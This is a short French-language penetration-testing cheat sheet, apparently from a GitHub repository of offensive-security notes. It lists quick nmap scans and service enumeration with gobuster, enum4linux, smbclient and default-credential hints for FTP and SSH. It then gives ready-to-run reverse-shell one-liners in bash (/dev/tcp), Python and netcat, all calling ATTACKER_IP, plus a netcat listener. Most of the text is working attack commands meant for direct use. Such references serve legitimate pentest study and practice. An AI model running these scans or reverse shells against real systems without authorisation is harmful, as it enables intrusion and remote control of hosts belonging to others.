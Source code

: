# ⚡ Commandes Rapides

[🏠 Accueil](../README.md) | [🚪 Ports](common-ports.md) | [🌐 Subnets](network-subnets.md) | [🐚 Reverse Shells](../08-payloads/reverse-shells.md)

## Scan initial rapide
```bash
# Host discovery
nmap -sn target.0/24

# Port scan rapide
nmap -F targetIP

# Scan complet
nmap -sC -sV -O targetIP
```

## Énumération express par service
```bash
# HTTP
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirb/common.txt

# SMB
enum4linux -a targetIP
smbclient -L targetIP -N

# FTP
ftp targetIP  # anonymous:anonymous

# SSH
ssh targetIP  # Tester comptes par défaut
```

## Reverse shells rapides
```bash
# Bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/PORT 0>&1'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/sh ATTACKER_IP PORT
```

## Listener
```bash
nc -nvlp PORT
```